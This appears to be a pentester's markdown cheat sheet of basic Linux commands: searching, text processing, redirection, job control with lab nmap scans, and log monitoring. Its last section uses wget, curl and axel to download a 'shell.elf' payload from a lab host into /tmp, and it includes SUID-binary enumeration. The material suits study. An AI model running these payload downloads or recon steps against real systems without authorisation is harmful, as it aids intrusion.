 # Basic Commands

## Searching

apropos

Search the list of man page descriptions for a possible match based on a keyword.

``` bash
apropos website
get-iab (1)          - Fetch the arp-scan IAB file from the IEEE website
get-oui (1)          - Fetch the arp-scan OUI file from the IEEE website (on Debian and Debian based systems, data is fetched from ieee-data package)
whatweb (1)          - Next generation Web scanner. Identify technologies used by websites.
```

## Create files

``` bash
mkdir module one

mkdir "module one"

mkdir -p module/{one,two,three}
```

## Control output

Piping

``` bash
sudo ss -antlp | grep sshd
```

sed

``` bash
echo 'Hades' | sed 's/Hades/leecybersec.com/'
```

cut

``` bash
echo "hacking, penetration testing and bug hunting"| cut -f 2 -d " "

penetration
```
``` bash
cut -d ":" -f 1 /etc/passwd
root
daemon
bin
```

awk

``` bash
cat /etc/passwd | awk -F ":" '{print $1, ":", $7}' | grep "sh"
```

uniq -c

``` bash
cat list.txt | sort | uniq -c | sort -r
```

grep

``` bash
ifconfig | grep eth0 -C 1 | grep inet | cut -f10 -d' '
grep -v "Nmap"
```

cutycapt

``` bash
cutycapt --url=$ip --out=$ip.png
```

## Redirect

to a New File

``` bash
ls > list.txt
```

``` bash
cat list.txt
Desktop
Documents
list.txt
```

to an Existing File

``` bash
echo "Add new" >> list.txt
```

from a File

``` bash
wc -m < list.txt
```

STDERR

``` bash
find / -perm -u=s -type f 2>/dev/null
```

## Processes

### Background a process 

``` bash
┌──(Hades㉿192.168.11.130)-[0.8:10.9]~
└─$ nmap -p- 127.0.0.1 &           
[1] 1239
                                                                                                                                                                            
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:49 EST
```

### Suspend the job

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ nmap -p- 192.168.11.131 -Pn

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-09 20:52 EST
^Z
zsh: suspended  nmap -p- 192.168.11.131 -Pn
┌──(Hades㉿192.168.11.130)-[0.7:11.4]~
└─$ bg

[1]  + continued  nmap -p- 192.168.11.131 -Pn
```

### jobs and fg

``` bash
┌──(Hades㉿192.168.11.130)-[0.7:11.1]~
└─$ jobs

[1]  + running    nmap -p- 192.168.11.131 -Pn
                                                                                                                                                                            
┌──(Hades㉿192.168.11.130)-[0.8:11.4]~
└─$ fg

[1]  + running    nmap -p- 192.168.11.131 -Pn
^C
```

### ps and kill

``` bash
ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 20:39 ?        00:00:02 /sbin/init splash
root           2       0  0 20:39 ?        00:00:00 [kthreadd]
<snip>
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
kali        1673    1202  0 20:59 pts/0    00:00:00 ps -ef
```

``` bash
ps -fC nmap
UID          PID    PPID  C STIME TTY          TIME CMD
kali        1448    1202  0 20:56 pts/0    00:00:01 nmap -p- 192.168.11.131 -Pn
kali        1466    1202  0 20:56 pts/0    00:00:00 nmap -p- 192.168.11.132 -Pn
kali        1484    1202  0 20:57 pts/0    00:00:00 nmap -p- 192.168.11.133 -Pn
```

``` bash
kill 1466                                                                                                                                                           2 ⚙
                                                                                                                                                                            
[2]  + terminated  nmap -p- 192.168.11.132 -Pn
```

## Monitoring

``` bash
udo tail -f /var/log/apache2/access.log
192.168.11.130 - - [09/Mar/2021:21:12:03 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
192.168.11.130 - - [09/Mar/2021:21:12:05 -0500] "GET / HTTP/1.1" 200 10956 "-" "curl/7.74.0"
...
```

``` bash
watch -n 1 date
```

## Downloading

wget

``` bash
wget -O /tmp/shell http://192.168.110.131/shell.elf
```

curl

``` bash
curl -o /tmp/shell http://192.168.110.131/shell.elf
```

axel

``` bash
axel -a -n 20 -o /tmp/shell http://192.168.110.131/shell.elf
```